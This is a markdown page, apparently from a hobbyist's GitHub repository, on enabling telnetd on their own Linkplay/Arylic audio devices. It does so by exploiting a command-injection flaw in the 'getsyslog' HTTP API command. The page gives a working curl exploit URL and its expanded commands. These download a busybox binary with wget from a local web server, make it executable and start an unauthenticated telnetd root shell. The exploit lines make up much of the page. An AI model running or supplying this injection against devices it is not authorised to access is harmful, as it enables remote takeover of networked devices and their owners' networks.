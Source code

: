 # Enable telnetd
To enable telnetd on these devices, a security vulnerability had to be exploited. The first version on my devices was 4.2.8020 from 2020/02/20 (20th of Feb 2020) that still had a vulnerability in their code: internally a "sprintf" function was used to prepare a Linux CLI commands. That function was using an IP address as an input, but the input could be extended with ";" and additional commands to download and install a telnetd.

The command that has this vulnerability is **_"getsyslog"_**, see https://developer.arylic.com/httpapi/#get-system-log and https://labs.withsecure.com/advisories/linkplay-firmware-wanlan-remote-code-execution. The command has an option to add an IP address from a slave device, e.g. **_"getsyslog:ip:10.1.1.90"_**, so a CLI command is executed on the device to retrieve the system log from the slave device that includes the IP address. Instead of just having an IP address as a parameter, that CLI command can also include a ";" and a second CLI command. You do not even have to provide an IP address, but can append the ";" and second command directly after the ":ip:". 

If your Linkplay device is running a newer version, you may have to downgrade the firmware first, see [Downgrade Firmware](/Downgrade.md).

The following code snippets are using the IP address 10.1.1.58 for my Arylic Up2Stream device and 10.1.1.22 for a web server running on my local MacMini. You need to create the subdirectories on your web server and copy the busybox binary to it. On my Mac mini it's the directory ***/Library/WebServer/Documents/linkplay*** that is accessible as http://10.1.1.22/linkplay. To organize all the files on my web server I've created several subdirectories below to store the binary file (***.../linkplay/a31/bin/busybox***).
```
curl "http://10.1.1.58/httpapi.asp?command=getsyslog:ip:10.1.1.22/index.html;mkdir+/tmp/bin;wget+-O+/tmp/bin/busybox+-T+5+http://10.1.1.22/linkplay/a31/bin/busybox+-q;chmod+555+/tmp/bin/busybox;ln+-s/tmp/bin/busybox+/tmp/bin/telnetd;/tmp/bin/telnetd+telnetd+-l/bin/ash;"
```
The command above is executing the following commands on the device in addition to the "getsyslog" request:
```
mkdir /tmp/bin
wget -O /tmp/bin/busybox -T 5 http://10.1.1.22/linkplay/a31/bin/busybox -q;
chmod 555 /tmp/bin/busybox;
ln -s /tmp/bin/busybox /tmp/bin/telnetd;
/tmp/bin/telnetd telnetd -l/bin/ash;
```
> **Note:**
> Don't forget to add a ";" at the end inside the quotes. Replace all spaces with "+" if you want to create your own URL with curl.

The tool **_"busybox"_** is like a swiss army knife and combines a lot of CLI commands in a single binary file. That file was stripped down in the version that was running on my Linplay device and does not include a telnetd anymore. Therefore you have to get a full version from somewhere. 

A version of busybox is provided here (see binary directory). That binary is compatible with the SoC that is running on the Linkplay A31 module, see [Hardware and Firmware](/Hardware.md) for details about the hardware.

There is an OpenWRT archive available where you can get precompiled binaries for almost all utilities you may need. See section [Hardware and Firmware](/Hardware.md) for details.

